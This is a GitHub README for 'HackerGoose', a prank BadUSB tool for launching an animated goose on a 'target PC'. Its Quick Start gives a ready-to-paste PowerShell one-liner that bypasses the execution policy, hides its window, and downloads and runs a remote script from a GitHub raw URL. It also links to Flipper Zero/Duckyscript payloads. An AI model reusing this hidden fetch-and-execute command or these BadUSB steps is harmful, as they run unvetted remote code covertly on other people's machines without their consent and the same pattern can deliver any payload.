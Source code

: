 # HackerGoose
### (WORKS ON WIN8+!)
## Introduction

HackerGoose is a lightweight and plug-and-play tool designed for launching a playful "goose" on your target PC. It runs for 10 minutes, providing an amusing and harmless experience. No modifications, such as webhooks, are needed for HackerGoose to work.

## Usage

### Prerequisites

- Target PC must have an active Wi-Fi connection.

### Quick Start

1. Open the "Run" dialog by pressing `Win + R`.
2. Copy and paste the following command:

    ```powershell
    powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iwr -useb 'https://raw.githubusercontent.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/main/HackerGoose.ps1' | iex"
    ```

3. Press Enter to launch HackerGoose on the target PC.
4. Enjoy the playful antics of the virtual goose for the next 10 minutes.

## Additional Payloads

If you prefer using a Duckyscript payload or a Flipper Zero BadUSB payload, you can download the respective HackerGoose.txt file from the repository.

### BadUSB Payload

- [Download HackerGoose BadUSB Payload](https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/edit/main/HackerGoose/HackerGoose.txt)

## Disclaimer

HackerGoose is intended for educational and entertainment purposes only. Use it responsibly and ensure compliance with applicable laws and regulations. The developer is not responsible for any misuse or unauthorized use of this tool.

---
